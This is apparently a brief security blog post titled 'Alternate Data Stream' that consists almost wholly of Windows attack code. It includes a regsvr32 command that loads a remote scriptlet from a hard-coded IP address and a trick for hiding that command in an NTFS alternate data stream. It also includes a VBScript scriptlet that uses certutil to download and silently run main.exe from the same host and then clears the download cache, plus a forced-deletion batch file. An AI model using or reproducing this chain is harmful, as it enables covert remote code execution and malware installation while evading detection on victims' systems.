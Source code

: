 ```yaml
---
author: XhstormR
categories:
- security
date: 2019-09-30T19:31:07+08:00
title: Alternate Data Stream
---
```


<!--more-->

Updated on 2019-09-30

```bash
regsvr32.exe /s /u /i:http://47.98.135.65/main/main.xml scrobj.dll
```

```bash
cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:http://47.98.135.65/main/main.xml ^scrobj.dll > ...:payload.bat

cmd.exe - < ...:payload.bat
```

## main.xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<scriptlet>
<registration classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
<script language="VBScript">
    <![CDATA[
        CreateObject("WScript.Shell").Run _
            "%ComSpec% /c cd /d %TEMP% && " &_
            "(IF NOT EXIST main.exe certutil.exe -urlcache -split -f http://47.98.135.65/main/main.exe) && " &_
            "certutil.exe -urlcache * delete & " &_
            "main.exe r", 0, false
    ]]>
</script>
</registration>
</scriptlet>
```

## delete.bat
```bash
del /f /a /q \\?\%1
rd /s /q \\?\%1
```

## Reference
* https://ss64.com/vb/shell.html
* https://attack.mitre.org/techniques/T1117/
* https://docs.microsoft.com/zh-cn/dotnet/visual-basic/programming-guide/program-structure/how-to-break-and-combine-statements-in-code
